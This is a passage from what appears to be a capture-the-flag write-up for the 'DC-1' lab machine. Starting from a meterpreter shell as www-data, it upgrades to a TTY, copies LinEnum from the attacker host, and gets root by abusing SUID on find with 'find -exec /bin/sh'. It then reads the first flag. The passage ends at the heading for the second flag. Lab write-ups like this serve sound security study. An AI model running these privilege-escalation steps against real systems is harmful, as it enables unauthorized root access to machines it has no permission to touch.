 We get a meterpreter shell as the **www-data** user 

## Priv-Esc

I dropped into a normal shell and noticed it was running python so used this to get a tty 

`python -c 'import pty; pty.spawn("/bin/bash")'`

using scp I copied up LinEnum - [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)

{% highlight bash %}
scp root@192.168.0.83:/usr/share/LinEnum/LinEnum.sh .

chmod +x LinEnum.sh
./LinEnum.sh -t | tee LinEnum-output.txt
{% endhighlight %}

going thorugh the LinEnum output i noticed that that find has the SUID set

{% highlight bash %}
-rwsr-xr-x 1 root root 162424 Jan  6  2012 /usr/bin/find
{% endhighlight %}

This was abused to get higher privs

{% highlight bash %}
www-data@DC-1:/tmp$ touch test
www-data@DC-1:/tmp$ find test -exec "whoami" \;   
root

www-data@DC-1:/tmp$ find test -exec "/bin/sh" \;
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
# 
{% endhighlight %}

now we have a shell with root perms :)

### flag 1

This was found as soon as i got a shell on the box sitting in the www folder

{% highlight bash %}
# cat /var/www/flag1.txt
cat /var/www/flag1.txt
Every good CMS needs a config file - and so do you.
{% endhighlight %}


### flag 2
